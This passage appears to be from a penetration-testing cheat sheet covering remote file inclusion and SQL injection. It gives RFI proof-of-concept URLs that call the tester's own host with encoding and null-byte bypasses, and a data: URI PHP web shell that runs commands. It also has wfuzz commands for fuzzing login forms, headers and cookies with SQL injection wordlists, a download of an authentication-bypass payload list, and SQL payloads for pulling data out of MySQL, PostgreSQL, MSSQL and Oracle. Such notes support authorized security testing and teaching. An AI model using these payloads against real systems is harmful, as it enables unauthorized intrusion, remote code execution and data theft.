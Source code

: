 ### Remote file inclusion _(RFI)_
- Basic PoC:
```bash
sudo python3 -m http.server 80
http://<my_ip>/test
http://<my_ip>/test%00
http:%252f%252f<my_ip>%252ftest
http:%252f%252f<my_ip>%252ftest%00
```
- Bypassing URL prohibition:
```bash
data:text/plain,testing
data:text/plain,<?php system($_GET['c']); ?>
```

## SQL injection
### SQLI fuzzing
```bash
wfuzz -c -z file,/usr/share/wordlists/wfuzz/Injections/SQL.txt -d 'username=FUZZ&password=anypassword' -u <url>
wfuzz -c -z file,/usr/share/wordlists/wfuzz/Injections/SQL.txt,urlencode --basic <username>:<password> -X <http_method> -u '<url>?<param>=FUZZ'
wfuzz -c -z file,/usr/share/wordlists/wfuzz/Injections/SQL.txt --basic <username>:<password> -X <http_method>  -H '<header>: FUZZ' <url>
wfuzz -c -z file,/usr/share/wordlists/wfuzz/Injections/SQL.txt,urlencode --basic <username>:<password> -X <http_method>  -b '<cookie_name>=FUZZ' <url>
```

### SQLI authentication bypass
```bash
wget https://raw.githubusercontent.com/payloadbox/sql-injection-payload-list/master/Intruder/exploit/Auth_Bypass.txt
wfuzz -c -z file,./Auth_Bypass.txt -d 'username=FUZZ&password=anypassword' -u <url>
```

### SQLI select payloads
- Guess database type to enumerate:
  - [MySQL enumeration](../tcp-3306-mysql/README.md#enumerating-a-database)
  - [PostgreSQL enumeration](../tcp-5432-pgsql/README.md#enumerating-a-database)
  - [MSSQL enumeration](../tcp-1433-mssql/README.md#enumerating-a-database)
  - [Oracle DB enumeration](../tcp-1521-oracle_db/README.md#enumerating-a-database)

- Concatenate result columns into a single one:
```SQL
SELECT concat(<column_one>,char(58),<column_two>) FROM <table_name> -- MySQL
SELECT <column_one>||chr(58)||<column_two> FROM <table_name> -- PostgreSQL
SELECT <column_one>+char(58)+<column_two> FROM <table_name> -- MSSQL
SELECT <column_one>||chr(58)||<column_two> FROM <table_name>-- Oracle
```
- Usecases _(select payloads can be used with different SQL injection types or by themselves in these cases)_:
```SQL
UPDATE table SET column = ''||(<select_query>) -- MySQL(if PIPES_AS_CONCAT=true)/PostgreSQL/Oracle
UPDATE table SET column = ''+(<select_query>) -- MSSQL

INSERT INTO table (column) VALUES (''||(<select_query>))  -- MySQL(if PIPES_AS_CONCAT=true)/PostgreSQL/Oracle
INSERT INTO table (column) VALUES (''+(<select_query>))  -- MSSQL
```
